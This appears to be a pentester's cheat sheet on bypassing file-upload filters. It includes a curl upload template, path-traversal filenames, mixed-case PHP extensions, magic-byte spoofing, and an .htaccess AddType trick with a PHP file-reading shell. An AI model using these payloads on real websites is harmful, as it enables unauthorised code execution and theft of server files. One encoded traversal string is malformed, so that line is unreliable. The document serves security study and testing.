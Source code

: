 # 

# File Upload Vulnerability

## ByPass Client Side Filterin

1. Turn of JavaScript But Make Sure the Website doesn't require Javascript in order to provide basic functionality.

2. Intercept and modify the incoming page. Using Burpsuite
   
   EX:
   
           1-Intercept on to get This Request 
           2-Right Click and choose -> Do Intercept
           3-Response This request 
           4-Forward
           5-And Delete JS code Filter

3. Send the file directly to the upload point.
   
   Why use the webpage with the filter,when you can send the file directly using a tool. like curl
   
       curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>

4. Edit Content-Type: header to
   
           1-Upload File With Accepted Extention
           2-Intercept This Request 
           3-Edit Content-Type to -> Content-Type:text/x-php or image/png -> would you want
           3-and Edit file Extention to what you want

5. File Upload via Path Traversal 
   
           Content-Disposition: form-data; name="avatar"; filename="../get_f_c.php"
           Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fget_f_c.php"
       
           GET /files/avatars/../get_f_c.php
           GET /files/avatars/..%2get_f_c.php

6. Test them using some uppercase letters
   
         pHp, .pHP5, .PhAr ...

7. using .htaccess file
   
   this file is the file of configration in appache you can add configration on it to accept any extension ike .shell , .test then you should aupload two fils file .htaccess 
   
   file One
   
       Content-Disposition: form-data; name="avatar"; filename=".htaccess"
       Content-Type: text/plain
       AddType application/x-httpd-php .shell
   
   flle Two
   
       Content-Disposition: form-data; name="avatar"; filename="shell.shell"
       Content-Type: image/png
       <?php echo file_get_contents('/path/to/target/file'); ?>

--- 

## ByPass ServerSide Filtering

1. First You have to perform a lot of testing to build up an idea of what is or is not allowed through the filter.

2. Try All Possible Extention work for The Same Thing You Want https://book.hacktricks.xyz/pentesting-web/file-upload

3. Magic Numbers
   
   see this site To Know Your Extention Magic Number
   
   https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5
   
   https://en.wikipedia.org/wiki/List_of_file_signatures
   
   Use Any hex editor to Edit First bits. Like hexeditor
   
   use Command `file filename` to know if the magic Numbers work
